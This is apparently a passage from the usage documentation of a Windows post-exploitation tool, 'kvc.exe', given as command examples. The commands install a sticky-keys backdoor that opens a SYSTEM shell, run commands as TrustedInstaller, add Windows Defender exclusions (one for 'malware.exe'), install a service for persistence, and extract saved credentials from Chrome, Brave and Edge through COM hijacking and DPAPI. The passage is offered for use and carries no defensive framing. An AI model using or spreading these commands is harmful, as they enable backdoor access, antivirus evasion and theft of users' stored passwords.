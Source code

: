 ### Advanced System Integration

```bash
# Install sticky keys backdoor (5x Shift = SYSTEM cmd)
kvc.exe shift

# Remove sticky keys backdoor
kvc.exe unshift  

# Execute command with TrustedInstaller privileges
kvc.exe trusted cmd
kvc trusted Shortcut.lnk

# Add Windows Defender exclusions
kvc.exe add-exclusion Paths C:\Tools
kvc.exe add-exclusion Processes malware.exe
kvc.exe add-exclusion Extensions .dmp

# Install as NT service for persistence
kvc.exe install
kvc.exe service status
kvc.exe service stop
kvc.exe service start
kvc.exe uninstall

#Auto-install to System32 + Windows Defender exclusions
kvc setup

```

### Browser Credential Extraction

```bash
# Extract Chrome credentials using COM hijacking
kvc.exe bp --chrome -o C:\extracted

# Extract all browser credentials
kvc.exe bp --chrome --brave --edge

# DPAPI-based extraction (legacy method)
kvc.exe export secrets C:\dpapi
```

### Service Management (Advanced Deployment)

```bash
# Install as Windows service
kvc.exe install

# Service lifecycle management
kvc.exe service start
kvc.exe service stop  
kvc.exe service status

# Complete removal
kvc.exe service stop
kvc.exe uninstall
```
